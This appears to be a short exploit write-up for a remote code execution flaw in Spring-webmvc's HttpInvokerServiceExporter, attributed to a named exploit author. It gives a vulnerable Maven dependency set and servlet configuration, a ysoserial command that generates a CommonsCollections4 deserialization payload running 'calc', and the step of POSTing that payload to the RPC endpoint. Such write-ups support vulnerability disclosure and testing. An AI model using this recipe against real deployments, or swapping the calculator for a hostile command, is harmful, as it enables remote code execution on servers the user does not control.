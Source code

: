 # Spring-webmvc remote code execution vulnerability #

**project name**： Spring-webmvc <br>
**Versions Affected**: 5.2.x, 5.1.x, <br>
**Exploit Author**: Lynx@vfsec.com <br>
**Homepage**: https://spring.io/projects/spring-framework , https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html <br>


## exploit_detail <br>
    
Build the Maven project for Spring-WebMVC RPC(Remote Method Call)，pom.xml： <br>
```
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-webmvc</artifactId>
    <version>5.2.8.RELEASE</version>
</dependency>
```

example-servlet.xml:
```
<bean name="/hello" class="org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter">
    <property name="service">
        <bean class="com.example.springweb.mvc.simpleHelloWorld"></bean>
    </property>
    <property name="serviceInterface">
        <value>com.example.springweb.mvc.HelloWorld</value>
    </property>
</bean>
```


USE ysoserial_tool to generate the payload，command is `java -jar ysoserial_tools/ysoserial-0.0.5.jar CommonsCollections4 "calc" > ysoserial_tools/test.ser`
Submit test.ser as a POST request to the Spring-webmvc-rpc API